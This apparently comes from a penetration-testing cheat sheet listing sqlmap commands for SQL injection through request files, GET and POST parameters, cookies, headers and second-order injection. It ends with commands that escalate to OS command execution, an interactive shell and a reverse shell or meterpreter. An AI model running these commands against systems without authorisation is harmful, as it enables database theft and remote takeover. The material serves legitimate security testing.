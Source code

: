 Capture the request and create a req.txt file

```bash
sqlmap -r req.txt --current-user
```

### GET Request Injection

```bash
sqlmap -u "http://example.com/?id=1" -p id
sqlmap -u "http://example.com/?id=*" -p id
```

### POST Request Injection

```bash
sqlmap -u "http://example.com" --data "username=*&password=*"
```

### Injections in Headers and other HTTP Methods

```bash
#Inside cookie
sqlmap  -u "http://example.com" --cookie "mycookies=*"

#Inside some header
sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
sqlmap -u "http://example.com" --headers="referer:*"

#PUT Method
sqlmap --method=PUT -u "http://example.com" --headers="referer:*"

#The injection is located at the '*'
```

### Second order injection

```bash
python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```

### Shell

```bash
#Exec command
python sqlmap.py -u "http://example.com/?id=1" -p id --os-cmd whoami

#Simple Shell
python sqlmap.py -u "http://example.com/?id=1" -p id --os-shell

#Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1" -p id --os-pwn
```

